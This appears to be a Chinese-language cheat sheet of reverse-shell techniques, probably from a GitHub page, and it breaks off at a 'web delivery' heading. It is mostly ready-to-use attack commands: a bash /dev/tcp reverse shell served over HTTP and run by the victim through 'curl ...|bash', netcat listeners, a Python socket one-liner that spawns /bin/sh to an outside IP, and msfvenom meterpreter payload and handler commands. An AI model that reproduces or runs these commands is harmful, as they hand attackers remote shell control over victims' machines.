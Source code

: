## curl

攻击者：

```sh
vim index.html
# 编辑以下内容
bash -i >& /dev/tcp/139.155.49.43/6666 0>&1
# 开启监听
python -m http.server
```

控制端打开新的终端

```sh
nc -lvvp 6666
```

被控端：

```sh
curl 139.155.49.43:8000|bash
# 或
curl http://139.155.49.43:8000/index.html|bash
```

## python

控制端开启监听：

```sh
nc -lvvp 6666
```

被控端：

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
# 修改代码中的ip和端口
```

- 通过 msfvenom 生成 python 反弹 shell 的 payload

    ```sh
    # 生成payload
    msfvenom -p python/meterpreter/reverse_tcp LHOST=139.155.49.43 LPORT=6666 -f raw

    # 进入msf终端后运行
    handler -p python/meterpreter/reverse_tcp -H 139.155.49.43 -P 6666
    ```

    web delivery 反弹 shell
